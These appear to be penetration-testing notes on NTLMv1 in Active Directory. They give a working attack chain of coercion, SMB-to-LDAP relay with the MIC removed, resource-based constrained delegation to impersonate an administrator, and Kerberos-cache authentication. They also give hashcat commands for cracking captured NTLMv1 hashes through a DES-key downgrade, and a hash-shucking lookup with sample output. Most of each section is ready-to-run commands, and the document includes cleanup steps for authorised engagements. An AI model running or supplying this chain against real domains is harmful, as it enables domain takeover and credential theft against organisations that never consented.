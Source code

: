 # NTLMv1

## Relaying NTLMv1

### LDAP

Its not possible to relay SMB connections to LDAP(S) unless the Message Integrity Code (MIC) is removed. As NTLMv1 does not support the MIC it is therefor possible to relay NTLMv1 coerced from SMB to LDAP(S)

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- Target Domain Controller is not Windows Server 2025 (Default LDAP Signing and Binding)

#### LDAP Signing and Channel Binding
- LDAP Signing is enforced: Relay -> ```ldaps://```
- LDAP Signing is not enforced but channel binding is: Relay -> ```ldap://``` (Impacket uses StartTLS)
- **Note**: NTLMv1 does not support channel binding

#### Optional Requirements (Depends on attack vector)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Attack Chain

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```
sudo impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```

#### Cleanup

- The system we coerce from has the ```msDs-AllowedToActOnBehalfOfOtherIdentity``` attribute modified to the created machine account. Ensure this is removed on engagements.
- Ensure the created machine account is removed at the end of the engagement.

```powershell
# Run in elevated PowerShell

# Clear msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-ADComputer -Identity "DC01$" | ForEach-Object { Set-ADObject -Identity $_.DistinguishedName -Clear "msDS-AllowedToActOnBehalfOfOtherIdentity" }

# Remove Created Computer Account
Remove-ADComputer -Identity "WSW01$"
```

## Recovering NTLMv1 Credentials

### Password Cracking
Two available recovery methods for password cracking
- Standard cracking (Wordlist / ruleset)
- Downgrade to 3DES keys and exhaust key space

#### Standard Cracking (Hashcat Mode 5500)
```
hashcat.exe -m 5500 -a 0 -O 5500.txt weakpass_4.txt -r rules\best64.rule
```
#### Downgrade to 3DES keys (Hashcat Mode 14000)
> Setup
```
python3 -m venv venv 
pip3 install pycryptodome
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/refs/heads/master/src/ntlmv1.py
```
> Downgrade
```
# Downgrade
python3 ntlmv1.py --ntlmv1 Moe::SEVENKINGDOMS:535549550D915... --hashcat

# Echo contents to file
echo "535549550D915078:1122334455667788" >> 14000.hash
echo "B4F2F4334C1992E0:1122334455667788" >> 14000.hash
```
> Crack
```
# Full DES Key Space
hashcat.exe -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
```
### Password Shucking
If the plaintext equivalent of the NTLMv1 password is known in online lookup databases, password shucking can be performed to recover the plaintext.

- Only feasible for user account passwords

URL: https://shuck.sh/get-shucking.php

```
[+]  INPUT TOKEN                                    NT-HASH (PTH-READY)

Moe::SEVENKINGDOMS:535549550D915078B4F2...              Password123
```